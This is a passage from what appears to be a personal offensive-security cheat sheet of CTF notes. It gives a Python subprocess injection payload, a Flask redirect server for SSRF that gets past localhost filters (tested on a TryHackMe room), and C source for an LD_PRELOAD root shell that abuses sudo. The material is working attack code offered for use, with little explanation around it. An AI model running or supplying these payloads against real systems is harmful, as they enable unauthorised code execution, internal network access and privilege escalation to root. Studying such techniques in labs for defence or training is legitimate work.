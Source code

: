 - Payload-:```ast.parse(len(__import__('subprocess').Popen('ls').communicate()))```

![image](https://github.com/user-attachments/assets/9144d74b-f144-43a7-8a85-8c30a82fbeb2)

------------------

### REFERENCES-:

- [Twosix](https://twosixtech.com/blog/hijacking-the-ast-to-safely-handle-untrusted-python/)

------------------

### Exploiting SSRF with redirect

- See the code below,change the host keyword to your ip

```python3
#! /usr/bin/env python3
from flask import Flask, redirect,request
from urllib.parse import quote
app = Flask(__name__)    

@app.route('/',methods=['GET'])    
def root():
    port = request.args.get("port")
    file = request.args.get("file")
    if file != None:
        url =  f"http://127.0.0.1:{port}/{file}"
    else:
        url = f"http://127.0.0.1:{port}/"
    return redirect(url, code=301)
    
if __name__ == "__main__":
    app.run(host="10.9.1.30", port=8080)
```

  - Proof with THM's room `Londonbridge`,I passed in `&` in a url encoded format.This approach helps you bypass filtered strings like `localhost`,`127.0.0.1`,`0.0.0.0`.


![image](https://github.com/user-attachments/assets/145bb5e4-2778-46a9-8393-a84c993245cb)
  
----------------------

### ABUSING LD_PRELOAD

- A sample

![image](https://github.com/user-attachments/assets/5353735b-464b-4c3e-a03b-a3e553f3205f)

- Save this code as `shell.c`

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#define _GNU_SOURCE
void _init() 
{
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```
- Compile and run based on the sudo binary, in my case,it was `ping`.
